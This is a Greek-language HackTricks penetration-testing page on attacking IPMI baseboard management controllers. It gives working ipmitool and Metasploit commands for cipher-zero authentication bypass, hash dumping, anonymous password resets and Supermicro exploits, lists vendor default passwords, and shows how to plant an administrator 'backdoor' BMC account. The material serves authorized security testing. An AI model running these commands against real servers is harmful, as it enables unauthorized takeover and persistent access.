 # 623/UDP/TCP - IPMI

## 623/UDP/TCP - IPMI

<details>

<summary><strong>Μάθετε το χάκινγκ του AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι για να υποστηρίξετε το HackTricks:

* Εάν θέλετε να δείτε την **εταιρεία σας να διαφημίζεται στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**The PEASS Family**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στη** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στη [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε τα χάκινγκ κόλπα σας υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια του github.

</details>

## Βασικές Πληροφορίες

### **Επισκόπηση του IPMI**

Το **[Intelligent Platform Management Interface (IPMI)](https://www.thomas-krenn.com/en/wiki/IPMI_Basics)** προσφέρει μια τυποποιημένη προσέγγιση για την απομακρυσμένη διαχείριση και παρακολούθηση των υπολογιστικών συστημάτων, ανεξάρτητα από το λειτουργικό σύστημα ή την κατάσταση λειτουργίας. Αυτή η τεχνολογία επιτρέπει στους διαχειριστές συστημάτων να διαχειρίζονται απομακρυσμένα τα συστήματα, ακόμα και όταν είναι απενεργοποιημένα ή μη ανταποκρίνονται, και είναι ιδιαίτερα χρήσιμη για:

- Ρυθμίσεις πριν την εκκίνηση του λειτουργικού συστήματος
- Διαχείριση απενεργοποίησης
- Ανάκτηση από αποτυχίες του συστήματος

Το IPMI είναι ικανό να παρακολουθεί θερμοκρασίες, τάσεις, ταχύτητες ανεμιστήρων και τροφοδοτικά, καθώς και να παρέχει πληροφορίες αποθέματος, να ελέγχει αρχεία καταγραφής υλικού και να αποστέλλει ειδοποιήσεις μέσω SNMP. Απαραίτητα για τη λειτουργία του είναι μια πηγή ενέργειας και μια σύνδεση LAN.

Από την εισαγωγή του από την Intel το 1998, το IPMI έχει υποστηριχθεί από πολλούς προμηθευτές, ενισχύοντας τις δυνατότητες απομακρυσμένης διαχείρισης, ιδιαίτερα με την υποστήριξη της έκδοσης 2.0 για σειριακή σύνδεση μέσω LAN. Οι βασικοί συστατικοί περιλαμβάνουν:

- **Baseboard Management Controller (BMC):** Ο κύριος μικροελεγκτής για τις λειτουργίες του IPMI.
- **Λεωφορεία και διεπαφές επικοινωνίας:** Για εσωτερική και εξωτερική επικοινωνία, συμπεριλαμβανομένων των ICMB, IPMB και διάφορων διεπαφών για τοπικές και δικτυακές συνδέσεις.
- **Μνήμη IPMI:** Για αποθήκευση καταγραφών και δεδομένων.

![https://blog.rapid7.com/content/images/post-images/27966/IPMI-Block-Diagram.png#img-half-right](https://blog.rapid7.com/content/images/post-images/27966/IPMI-Block-Diagram.png#img-half-right)

**Προεπιλεγμένη Θύρα**: 623/UDP/TCP (Συνήθως είναι σε UDP αλλά μπορεί επίσης να λειτουργεί σε TCP)

## Απαρίθμηση

### Ανακάλυψη
```bash
nmap -n -p 623 10.0.0./24
nmap -n-sU -p 623 10.0.0./24
use  auxiliary/scanner/ipmi/ipmi_version
```
Μπορείτε να **αναγνωρίσετε** τη **έκδοση** χρησιμοποιώντας:
```bash
use auxiliary/scanner/ipmi/ipmi_version
nmap -sU --script ipmi-version -p 623 10.10.10.10
```
### Ευπάθειες του IPMI

Στον κόσμο του IPMI 2.0, αποκαλύφθηκε μια σημαντική αδυναμία ασφαλείας από τον Dan Farmer, αποκαλύπτοντας μια ευπάθεια μέσω του **τύπου κρυπτογράφησης 0**. Αυτή η ευπάθεια, περιγράφεται αναλυτικά στην έρευνα του [Dan Farmer](http://fish2.com/ipmi/cipherzero.html), επιτρέπει την μη εξουσιοδοτημένη πρόσβαση με οποιοδήποτε κωδικό πρόσβασης, εφόσον στοχευθεί ένας έγκυρος χρήστης. Αυτή η αδυναμία βρέθηκε σε διάφορα BMCs από κατασκευαστές όπως η HP, η Dell και η Supermicro, υποδηλώνοντας ένα ευρέως διαδεδομένο πρόβλημα σε όλες τις υλοποιήσεις του IPMI 2.0.

### **Παράκαμψη Πιστοποίησης IPMI μέσω του Τύπου Κρυπτογράφησης 0**

Για τον εντοπισμό αυτής της αδυναμίας, μπορεί να χρησιμοποιηθεί το εργαλείο ανίχνευσης Metasploit auxiliary scanner που ακολουθεί:
```bash
use auxiliary/scanner/ipmi/ipmi_cipher_zero
```
Η εκμετάλλευση αυτής της αδυναμίας είναι εφικτή με το `ipmitool`, όπως φαίνεται παρακάτω, επιτρέποντας την αναφορά και τροποποίηση των κωδικών πρόσβασης των χρηστών:
```bash
apt-get install ipmitool # Installation command
ipmitool -I lanplus -C 0 -H 10.0.0.22 -U root -P root user list # Lists users
ipmitool -I lanplus -C 0 -H 10.0.0.22 -U root -P root user set password 2 abc123 # Changes password
```
### **IPMI 2.0 RAKP Αποκτήστε Απομακρυσμένα τον Κωδικό Πρόσβασης του Συνθηματικού Αυθεντικοποίησης**

Αυτή η ευπάθεια επιτρέπει την ανάκτηση αλατωμένων κατακερματισμένων κωδικών πρόσβασης (MD5 και SHA1) για οποιονδήποτε υπάρχον όνομα χρήστη. Για να δοκιμάσετε αυτήν την ευπάθεια, το Metasploit προσφέρει ένα ενότητα:
```bash
msf > use auxiliary/scanner/ipmi/ipmi_dumphashes
```
### **Ανώνυμη Πιστοποίηση IPMI**

Μια προεπιλεγμένη ρύθμιση σε πολλά BMCs επιτρέπει την πρόσβαση "ανώνυμη", χαρακτηριζόμενη από κενές συμβολοσειρές ονόματος χρήστη και κωδικού πρόσβασης. Αυτή η ρύθμιση μπορεί να εκμεταλλευτεί για την επαναφορά κωδικών πρόσβασης ονομασμένων λογαριασμών χρηστών χρησιμοποιώντας το `ipmitool`:
```bash
ipmitool -I lanplus -H 10.0.0.97 -U '' -P '' user list
ipmitool -I lanplus -H 10.0.0.97 -U '' -P '' user set password 2 newpassword
```
### **Καθαρό κείμενο κωδικοί πρόσβασης IPMI της Supermicro**

Μια κρίσιμη σχεδιαστική επιλογή στο IPMI 2.0 απαιτεί την αποθήκευση κωδικών πρόσβασης σε μορφή καθαρού κειμένου μέσα στα BMCs για σκοπούς πιστοποίησης. Η αποθήκευση αυτών των κωδικών πρόσβασης από την Supermicro σε τοποθεσίες όπως `/nv/PSBlock` ή `/nv/PSStore` προκαλεί σημαντικές ανησυχίες ασφαλείας:
```bash
cat /nv/PSBlock
```
### **Ευπάθεια UPnP στο Supermicro IPMI**

Η περιλαμβανόμενη από τη Supermicro εφαρμογή UPnP SSDP listener στο firmware του IPMI, ειδικά στην UDP θύρα 1900, εισάγει ένα σοβαρό κίνδυνο ασφάλειας. Οι ευπάθειες στην έκδοση 1.3.1 του Intel SDK για συσκευές UPnP, όπως περιγράφονται από την αποκάλυψη της [Rapid7](https://blog.rapid7.com/2013/01/29/security-flaws-in-universal-plug-and-play-unplug-dont-play), επιτρέπουν την πρόσβαση ως root στο BMC:
```bash
msf> use exploit/multi/upnp/libupnp_ssdp_overflow
```
### Βίαιη Δύναμη

Η **HP τυχαιοποιεί το προεπιλεγμένο κωδικό πρόσβασης** για το προϊόν της **Integrated Lights Out (iLO)** κατά την κατασκευή. Αυτή η πρακτική αντίθετα με άλλους κατασκευαστές, οι οποίοι τείνουν να χρησιμοποιούν **στατικές προεπιλεγμένες πιστοποιήσεις**. Παρακάτω παρέχεται ένας περίλογος με προεπιλεγμένα ονόματα χρηστών και κωδικούς πρόσβασης για διάφορα προϊόντα:

- Το **HP Integrated Lights Out (iLO)** χρησιμοποιεί ένα **τυχαίο 8-χαρακτήριο συμβολοσειρά** ως προεπιλεγμένο κωδικό πρόσβασης, παρουσιάζοντας ένα υψηλότερο επίπεδο ασφαλείας.
- Προϊόντα όπως το **Dell's iDRAC, IBM's IMM** και **Fujitsu's Integrated Remote Management Controller** χρησιμοποιούν εύκολα μαντεύσιμους κωδικούς πρόσβασης όπως "calvin", "PASSW0RD" (με μηδέν), και "admin" αντίστοιχα.
- Επίσης, το **Supermicro IPMI (2.0), Oracle/Sun ILOM** και **ASUS iKVM BMC** χρησιμοποιούν επίσης απλούς προεπιλεγμένους κωδικούς πρόσβασης, με "ADMIN", "changeme" και "admin" να λειτουργούν ως κωδικοί πρόσβασης τους.


## Πρόσβαση στον Κεντρικό Υπολογιστή μέσω του BMC

Η διαχειριστική πρόσβαση στον Ελεγκτή Διαχείρισης Βασικής Πλακέτας (BMC) ανοίγει διάφορους δρόμους για την πρόσβαση στο λειτουργικό σύστημα του κεντρικού υπολογιστή. Μια απλή προσέγγιση περιλαμβάνει την εκμετάλλευση της λειτουργικότητας Πληκτρολογίου, Βίντεο, Ποντικιού (KVM) του BMC. Αυτό μπορεί να γίνει είτε επανεκκινώντας τον κεντρικό υπολογιστή σε ένα root shell μέσω του GRUB (χρησιμοποιώντας `init=/bin/sh`) είτε εκκινώντας από ένα εικονικό CD-ROM που έχει οριστεί ως δισκέτα ανάκαμψης. Τέτοιες μεθόδοι επιτρέπουν την άμεση επεξεργασία του δίσκου του κεντρικού υπολογιστή, συμπεριλαμβανομένης της εισαγωγής πίσω πόρτας, της εξαγωγής δεδομένων ή οποιωνδήποτε απαραίτητων ενεργειών για μια αξιολόγηση ασφαλείας. Ωστόσο, αυτό απαιτεί την επανεκκίνηση του κεντρικού υπολογιστή, που αποτελεί ένα σημαντικό μειονέκτημα. Χωρίς επανεκκίνηση, η πρόσβαση στον εκτελούμενο κεντρικό υπολογιστή είναι πιο περίπλοκη και διαφέρει ανάλογα με τη διαμόρφωση του κεντρικού υπολογιστή. Εάν η φυσική ή η σειριακή κονσόλα του κεντρικού υπολογιστή παραμένει συνδεδεμένη, μπορεί εύκολα να καταληφθεί μέσω των λειτουργιών KVM ή σειριακής-μέσω-LAN (sol) του BMC μέσω του `ipmitool`. Η εξερεύνηση της εκμετάλλευσης κοινόχρηστων υλικών πόρων, όπως το δίαυλος i2c και το Super I/O chip, είναι ένας τομέας που απαιτεί περαιτέρω έρευνα.

## Εισαγωγή Πίσω Πόρτας στο BMC από τον Κεντρικό Υπολογιστή

Μετά την παραβίαση ενός κεντρικού υπολογιστή που είναι εξοπλισμένος με ένα BMC, η **τοπική διεπαφή του BMC μπορεί να αξιοποιηθεί για την εισαγωγή ενός λογαριασμού χρήστη πίσω πόρτας**, δημιουργώντας μια μόνιμη παρουσία στον διακομιστή. Αυτή η επίθεση απαιτεί την παρουσία του **`ipmitool`** στον παραβιασμένο υπολογιστή και την ενεργοποίηση της υποστήριξης του οδηγού BMC. Οι παρακάτω εντολές επιδεικνύουν πώς μπορεί να εισαχθεί ένας νέος λογαριασμός χρήστη στο BMC χρησιμοποιώντας την τοπική διεπαφή του υπολογιστή, που παρακάμπτει την ανάγκη για πιστοποίηση. Αυτή η τεχνική είναι εφαρμόσιμη σε μια ευρεία γκάμα λειτουργικών συστημάτων, συμπεριλαμβανομένων των Linux, Windows, BSD και ακόμα και DOS.
```bash
ipmitool user list
ID  Name        Callin  Link Auth    IPMI Msg  Channel Priv Limit
2  ADMIN            true    false      false      Unknown (0x00)
3  root            true    false      false      Unknown (0x00)

ipmitool user set name 4 backdoor
ipmitool user set password 4 backdoor
ipmitool user priv 4 4
ipmitool user list
ID  Name        Callin  Link Auth    IPMI Msg  Channel Priv Limit
2  ADMIN            true    false      false      Unknown (0x00)
3  root            true    false      false      Unknown (0x00)
4  backdoor        true    false      true      ADMINISTRATOR
```
## Shodan

* `port:623`

## Αναφορές

* [https://blog.rapid7.com/2013/07/02/a-penetration-testers-guide-to-ipmi/](https://blog.rapid7.com/2013/07/02/a-penetration-testers-guide-to-ipmi/)

<details>

<summary><strong>Μάθετε το χάκινγκ στο AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι για να υποστηρίξετε το HackTricks:

* Εάν θέλετε να δείτε την **εταιρεία σας να διαφημίζεται στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**The PEASS Family**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στη** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στη [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε τα χάκινγκ κόλπα σας υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια του github.

</details>
